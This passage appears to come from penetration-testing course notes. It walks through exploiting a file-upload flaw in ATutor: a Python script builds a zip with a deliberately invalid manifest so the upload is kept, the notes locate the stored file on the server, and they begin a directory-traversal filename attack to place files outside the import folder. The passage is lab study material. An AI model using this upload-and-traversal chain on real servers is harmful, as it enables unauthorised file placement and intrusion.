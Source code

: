 Thus, instead of a valid xml file we will be using an invalid xml file so we get the upload. Our new script will look as follows:

```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def _build_zip():
    f = StringIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('poc/poc.txt', 'offsec')
    z.writestr('imsmanifest.xml', 'invalid xml!')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip()
```

Creating and uploading the file:

![](../../03.%20Screenshots/t1-ss42.png)

Soon as we upload the file, we see the new error page as expected.
We now proceed to find the file in the box again:

![](../../03.%20Screenshots/t1-ss43.png)

With this, we find our poc file in the following directory:
```path
/var/content/import/16777215/poc/poc.txt
```

## Bypassing Restrictions
We have successfully found a file upload vulnerability, however, the place that the file is being uploaded, is not the web root(/var/www/html/Atutor)

We can simply bypass this restriction using a directory traversal attack.
We can perform this attack by naming our file as follows:
```
../../../../../tmp/poc/poc.txt
```
